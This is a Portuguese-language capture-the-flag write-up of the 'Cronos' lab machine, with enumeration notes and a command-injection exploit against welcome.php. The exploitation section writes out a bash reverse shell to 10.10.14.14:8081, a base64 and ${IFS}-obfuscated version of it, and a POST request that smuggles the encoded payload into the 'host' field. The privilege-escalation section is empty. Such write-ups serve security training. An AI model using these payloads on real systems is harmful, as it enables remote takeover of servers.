







Cronos
========================

## Enumeration
<h1>Enumeration</h1>

Basic nmap scan


Vuln scan nmap


UDP scan


Então temos SSH, HTTP e DNS

DNS



    echo "10.10.10.13    admin.cronos.htb www.cronos.htb cronos.htb ns1.cronos.htb" >> /etc/hosts




HTTP

admin.cronos.htb



Com base nessa resposta do wellcome.php, podemos identificar que existe a possibilidade de execução de comando no servido com a técnica representada na parte de exploitation:

cronos.htb




ns1.cronos.htb = 10.10.10.13


## Exploitation



Com isso já deu para perceber que existe um possível entry point aqui, podemos prosseguir com o reconhecimento removendo na resposta o redirecionamento:



Para isso removemos o cabeçalho Location e alteramos a resposta de 302 para 200 OK.

Então entendemos como fica a requisição para o servidor:



Mandamos o seguinte payload para exploração da vulnerabilidade:

    echo "bash -i >& /dev/tcp/10.10.14.14/8081 0>&1" | base64
    echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC84MDgxIDA+JjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
    
Ao disparar esse payload obtivemos a shell:


```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 401
Origin: http://admin.cronos.htb
Connection: close
Upgrade-Insecure-Requests: 1

command=traceroute&host=8.8.8.8%3B+%65%63%68%6f%24%7b%49%46%53%7d%4c%32%4a%70%62%69%39%69%59%58%4e%6f%49%43%31%73%49%44%34%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%51%76%4f%44%41%34%4d%53%41%77%50%43%59%78%49%44%49%2b%4a%6a%45%4b%24%7b%49%46%53%7d%7c%24%7b%49%46%53%7d%62%61%73%65%36%34%24%7b%49%46%53%7d%2d%64%24%7b%49%46%53%7d%7c%24%7b%49%46%53%7d%62%61%73%68
```

## PrivEsc


